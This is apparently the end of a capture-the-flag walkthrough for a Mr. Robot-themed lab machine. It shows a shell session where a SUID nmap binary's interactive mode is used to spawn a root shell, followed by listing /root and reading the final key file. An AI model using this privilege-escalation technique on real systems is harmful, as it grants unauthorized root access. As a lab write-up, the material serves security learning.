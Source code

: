 ```
robot@linux:~$ nmap --interactive     
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)

```
Grab the last key

```
# cd /root
cd /root
# ls -al
ls -al
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat key-3-of-3.txt
cat key-3-of-3.txt
...

```
Incredible room! Now for the culture, do this:

```
# echo "leave me here!" > readme.txt
```
Goodbye friend!
